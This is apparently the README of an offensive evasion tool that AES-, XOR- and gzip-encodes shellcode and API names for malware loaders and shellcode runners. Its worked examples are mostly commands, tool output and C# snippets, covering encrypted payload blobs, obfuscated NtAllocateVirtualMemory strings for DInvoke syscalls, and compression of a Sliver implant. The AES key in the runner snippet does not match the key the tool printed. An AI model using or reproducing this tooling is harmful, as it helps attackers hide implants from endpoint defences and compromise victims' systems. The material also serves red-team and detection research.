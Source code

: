 # LikesEvasion

Various obfuscation and decryption functionality for loaders, droppers, runners.

## Usage

```
LikesEvasion 1.0.0.2
Copyright c  2022

  -i, --input     Required. Input file to be processed (e.g. beacon.bin)

  -m, --mode      Required. Encryption/encoding mode (aesCs,caesarCs,caesarVba,xorCs,xorCsString,gzip,ungzip)

  -o, --output    Output filename

  --help          Display this help screen.

  --version       Display version information.
```

## Examples

### C# AES Bin Payload

The following example encrypts the bin file using AES and stores the output in a text file. The text file can be added as a resource to a runner. Remove the `-r` flag to output the encrypted blob to the console for copy and paste. 

```
PS> .\LikesEvasion.exe -m aescs -i .\calc.bin -o .\calc.bin.aes
[>] Initializing...
[>] Mode: aescs
[>] Input mode: bin
[>] Reading bytes from: .\calc.bin
[>] Bytes read: 276
[>] Storing buffer in .\calc.bin.aes
[>] Writing output file
[>] Copy & paste into shellcode runner
-----
byte[] buf = loadResource(...);

byte[] iv = new byte[16] {0x30, 0xb1, 0xfb, 0x8a, 0xf8, 0xf5, 0x22, 0x41, 0x6a, 0xf1, 0xeb, 0xda, 0x29, 0xd7, 0x98, 0xb5};
byte[] key = new byte[32] {0x7b, 0xf7, 0xb3, 0x83, 0xb0, 0x07, 0x56, 0x44, 0xac, 0xfa, 0x56, 0x0a, 0x83, 0xd2, 0xfe, 0x88, 0x86, 0x95, 0x28, 0x4a, 0x27, 0xea, 0x07, 0xf3, 0x6b, 0x07, 0x1f, 0xda, 0xa6, 0x6b, 0x98, 0x46};
-----
[>] Thanks to @xct_de
```

An example decryption routine can be found in the [DecryptAesCsharpBytes.cs](./LikesEvasion/Templates/DecryptAesCsharpBytes.cs) template. Copy the `iv` and `key` strings into the runner and decrypt:

```
static void Main(string[] args)
{
    [...]
    byte[] iv = new byte[16] { 0x30, 0xb1, 0xfb, 0x8a, 0xf8, 0xf5, 0x22, 0x41, 0x6a, 0xf1, 0xeb, 0xda, 0x29, 0xd7, 0x98, 0xb5 };
    byte[] key = new byte[32] { 0xe6, 0xd6, 0x69, 0x4e, 0x5b, 0x01, 0xd2, 0xb0, 0xf8, 0x43, 0xe0, 0x3f, 0xd9, 0xc8, 0x6f, 0x9c, 0x2a, 0x04, 0x50, 0x42, 0x65, 0x3b, 0xdb, 0xcb, 0x12, 0x92, 0xd8, 0xa6, 0x0a, 0x0d, 0x2d, 0x44 };

    byte[] buf = Decrypt(encrypted, key, iv);
    [...]
}
```

### C# XOR String

Perform string obfuscation:

```
PS> .\LikesEvasion.exe -m xorCsString -i NtAllocateVirtualMemory
[>] Initializing...
[>] Mode: xorCsString
[>] Input mode: string
[>] Encrypting string: NtAllocateVirtualMemory
[>] encrypting 1 entries
[>] key: 0x45, 0x59, 0x54, 0x38, 0x4a, 0x64, 0x71, 0x57, 0x57, 0x70, 0x4a, 0x70, 0x49, 0x47, 0x43, 0x52, 0x31, 0x34, 0x33, 0x46, 0x77, 0x6a, 0x45, 0x41, 0x63, 0x58, 0x47, 0x4c
[>] exec stub:

//  NtAllocateVirtualMemory
LikesEvasion.Evade.Deflate(LikesEvasion.Evade.FromHex("0b2d1554260b123623151c193b3336335d79562b18183c"),LikesEvasion.Evade.FromHex("455954384a64715757704a704947435231343346776a45416358474c"));
```

Next, add the decryption routine to a program. An example decryption routine can be found in the [DecryptXorCsharpString.cs](./LikesEvasion/Templates/DecryptXorCsharpString.cs) template. Example decryption:

```
static void Main(string[] args)
{
    Console.WriteLine(LikesEvasion.Evade.Deflate(LikesEvasion.Evade.FromHex("0b2d1554260b123623151c193b3336335d79562b18183c"), LikesEvasion.Evade.FromHex("455954384a64715757704a704947435231343346776a45416358474c")));
    
}
```

PoC output:

```
PS> .\PocXorStub.exe
NtAllocateVirtualMemory
```

Usage with DInvoke example:

```
static void Main(string[] args)
{
    [...]
    IntPtr syscall = DInvoke.DynamicInvoke.Generic.GetSyscallStub(LikesEvasion.Evade.Deflate(LikesEvasion.Evade.FromHex("0b2d1554260b123623151c193b3336335d79562b18183c"), LikesEvasion.Evade.FromHex("455954384a64715757704a704947435231343346776a45416358474c")));
    DInvoke.DynamicInvoke.Native.DELEGATES.NtAllocateVirtualMemory syscallAllocateVirtualMemory = (DInvoke.DynamicInvoke.Native.DELEGATES.NtAllocateVirtualMemory)Marshal.GetDelegateForFunctionPointer(syscall, typeof(DInvoke.DynamicInvoke.Native.DELEGATES.NtAllocateVirtualMemory));
    [...]
}
```

### Gzip bin

Use the `gzip` mode to compress a bin. In the following example, the 11 MB sliver bin is reduced to 4 MB. 

```
PS> .\LikesEvasion.exe -m gzip -i .\SLIVER.bin -o .\SLIVER.bin.gzip
[>] Initializing...
[>] Mode: gzip
[>] Input mode: bin
[>] Reading bytes from: .\SLIVER.bin
[>] Bytes read: 10878164
[>] Storing buffer in .\SLIVER.bin.gzip
[>] Compressing buffer
[>] Compressed size: 3897189
[>] Writing output file
```